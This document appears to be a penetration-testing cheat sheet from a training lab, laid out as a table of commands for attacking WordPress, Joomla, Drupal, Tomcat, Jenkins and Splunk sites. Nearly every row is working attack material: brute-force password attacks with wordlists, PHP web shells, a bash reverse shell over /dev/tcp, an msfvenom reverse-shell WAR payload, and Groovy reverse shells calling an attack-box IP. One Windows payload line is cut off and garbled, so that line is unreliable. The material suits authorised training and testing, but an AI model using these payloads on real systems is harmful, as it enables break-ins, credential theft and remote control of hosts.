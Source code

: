 |Command|Description|
|---|---|
|`sudo vim /etc/hosts`|Opens the `/etc/hosts` with `vim` to start adding hostnames|
|`sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list`|Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`)|
|`eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`|Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)|
|`cat web_discovery.xml \| ./aquatone -nmap`|Concatenates the contents of nmap scan output (web_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`)|
|`sudo wpscan --url <http://domainnameoripaddress> --enumerate`|Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge|
|`sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`|Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)|
|`curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`|cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell|
|`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`|PHP code that will execute a reverse shell on a Linux-based system|
|`droopescan scan joomla --url http://<domainnameoripaddress>`|Runs `droopescan` against a joomla site located at the specified url|
|`sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`|Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)|
|`<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`|PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command.|
|`curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`|Uses curl to navigate to php web shell file and run system commands (`=id`) on the target|
|`gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`|`gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)|
|`auxiliary/scanner/http/tomcat_mgr_login`|Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site|
|`python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt`|Runs mgr_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)|
|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`|Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`|
|`nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`|Nmap scan useful in enumerating Apache Tomcat and AJP services|
|`r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`|Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux|
|`def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`|Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system|
|`String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`|Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows|
|[reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)|A simple Splunk package for obtaining revershells on Windows and Linux systems|
|||